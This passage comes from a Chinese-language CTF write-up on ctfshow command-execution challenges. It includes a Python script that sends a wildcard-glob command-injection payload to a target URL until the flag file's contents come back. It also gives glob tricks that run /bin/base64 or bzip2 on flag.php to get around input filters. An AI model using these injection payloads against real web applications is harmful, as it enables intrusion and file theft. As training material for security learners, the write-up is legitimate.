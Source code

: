 ![](https://i.loli.net/2021/11/03/uYmrac5vVPN8WMA.png)

也可以用Y4师傅写的脚本

```php
author:Y4tacker
import requests

while True:
    url = "http://target-url/?c=.+/???/????????[@-[]"
    r = requests.post(url, files={"file": ('1.php', b'cat flag.php')})
    if r.text.find("flag") >0:
        print(r.text)
        break

```

### 其他解法：/bin和/usr/bin

学习了这位师傅的做法[ctfshow-命令执行_Ly's的博客-CSDN博客_](https://blog.csdn.net/weixin_45794666/article/details/111403030)

> 1、/bin
> 因为没有禁用数字，这里我们可以利用 /bin下的base64 中的64 进行通配符匹配 即 `/bin/base64 flag.php`
>
> ```
> ?c=/???/????64%20????.??? 即 /bin/base64 flag.php
> ```
>
> 
> 2、/usr/bin
>
> 还可以利用/usr/bin下的bzip2 先将flag.php文件进行压缩，然后再url访问下载
>
> ```
> 先?c=/???/???/????2 ????.??? 然后在url + /flag.php.bz2 下载文件
> ```

> 1. /bin：是系统的一些指令。bin为binary的简写主要放置一些系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar等。
> 2. /sbin：一般是指超级用户指令**。**主要放置一些系统管理的必备程式例如:cfdisk、dhcpcd、dump、e2fsck、fdisk、halt、ifconfig、ifup、 ifdown、init、insmod、lilo、lsmod、mke2fs、modprobe、quotacheck、reboot、rmmod、 runlevel、shutdown等。
> 3. /usr/bin：是你在后期安装的一些软件的运行脚本。主要放置一些应用软体工具的必备执行档例如c++、g++、gcc、chdrv、diff、dig、du、eject、elm、free、gnome*、 gzip、htpasswd、kfm、ktop、last、less、locale、m4、make、man、mcopy、ncftp、 newaliases、nslookup passwd、quota、smb*、wget等。
> 4. /usr/sbin：放置一些用户安装的系统管理的必备程式例如:dhcpd、httpd、imap、in.*d、inetd、lpd、named、netconfig、nmbd、samba、sendmail、squid、swap、tcpd、tcpdump等。

## 57-$(())+~数字构造

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
```